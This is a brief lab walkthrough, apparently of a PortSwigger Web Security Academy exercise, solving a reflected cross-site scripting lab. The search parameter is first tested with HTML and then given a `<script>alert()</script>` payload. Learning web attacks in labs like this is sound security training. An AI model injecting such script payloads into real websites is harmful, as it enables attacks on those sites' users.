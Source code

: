 # Reflected XSS into HTML context with nothing encoded

## This lab contains a simple [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality.

## To solve the lab, perform a cross-site scripting attack that calls the `alert` function.

### step1

`https://0a7b000c0436edbdc665d52c000100ef.web-security-academy.net/?search=market`

you will get search result

### step2

heree test `<p> hello</p>`

`https://0a7b000c0436edbdc665d52c000100ef.web-security-academy.net/?search=<p>hello</p>`

you will get hello on browser
now
`https://0a7b000c0436edbdc665d52c000100ef.web-security-academy.net/?search=<script>alert()</script>`
`
alert function will pop up window on screen
